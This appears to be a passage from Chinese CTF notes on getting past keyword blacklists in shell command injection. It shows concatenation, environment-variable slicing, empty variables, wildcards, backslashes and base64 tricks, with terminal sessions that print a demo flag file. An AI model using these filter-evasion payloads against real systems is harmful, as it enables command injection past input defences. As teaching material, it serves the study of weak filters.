    ```shell
   root@DESKTOP-10M601S:/home# cat<>flag
   flag{just_simple_flag}
   root@DESKTOP-10M601S:/home# cat<flag
   flag{just_simple_flag}
   ```

##### 黑名单关键字绕过

1. 字符串拼接

   ```
   a=c;b=at;c=fl;d=ag;$a$b ${c}${d}
   root@DESKTOP-10M601S:/home# a=c;b=at;c=fl;d=ag;$a$b ${c}${d}
   flag{just_simple_flag}
   ```

2. 利用环境变量

   linux下有一些环境变量，可以通过这些分割这些变量来拼接出想要的字符串

   ```
   root@DESKTOP-10M601S:/home# echo ${SHELLOPTS}
   braceexpand:emacs:hashall:histexpand:history:interactive-comments:monitor
   root@DESKTOP-10M601S:/home# echo ${SHELLOPTS:3:1}
   c
   root@DESKTOP-10M601S:/home# echo ${SHELLOPTS:2:1}
   a
   root@DESKTOP-10M601S:/home# ${SHELLOPTS:3:1}at${IFS}flag
   flag{just_simple_flag}
   ```

3. 利用空变量

   ```
   root@DESKTOP-10M601S:/home# cat fl${x}ag
   flag{just_simple_flag}
   ```

4. 利用linux通配符?*

   ```
   root@DESKTOP-10M601S:/home# /bin/ca? fl??
   flag{just_simple_flag}
   ```

5. 利用反斜杠

   \反斜杠在bash中被解释为转义字符，用于去除单个字符的特殊意义。它保留了跟随在之后的字符的字面值(除了换行符)。

   ```
   root@DESKTOP-10M601S:/home# ca\t f\lag
   flag{just_simple_flag}
   ```

6. 利用bash64编码

   ```
   root@DESKTOP-10M601S:/home# echo t | base64
   dAo=
   root@DESKTOP-10M601S:/home# ca$(echo "dAo=" | base64 -d) flag
   flag{just_simple_flag}
   root@DESKTOP-10M601S:/home# echo flag | base64
   ZmxhZwo=
   root@DESKTOP-10M601S:/home# cat $(echo "ZmxhZwo=" |base64 -d)
   flag{just_simple_flag}
   ```
